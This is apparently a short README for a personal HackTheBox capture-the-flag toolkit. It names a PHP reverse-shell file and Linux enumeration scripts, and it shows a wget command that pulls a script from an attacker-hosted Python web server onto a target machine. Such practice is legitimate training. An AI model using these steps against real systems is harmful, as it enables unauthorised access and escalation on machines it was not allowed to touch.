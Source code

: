 # Hackthebox tools
<p><b>shell.php</b> : Use for reverse shell when uploaded to vuln machine</p>
<p><b>les.sh and LinEnum.sh</b> : Use for detect vuln in Linux machine</p>

### How to upload files to vuln linux machine
<p>In your machine type : python -m SimpleHTTPServer</p>
<p>In vuln machine type : wget (your ip address):8000/(file to upload)</p>
<p>Example : wget 10.10.14.62:8000/les.sh</p>
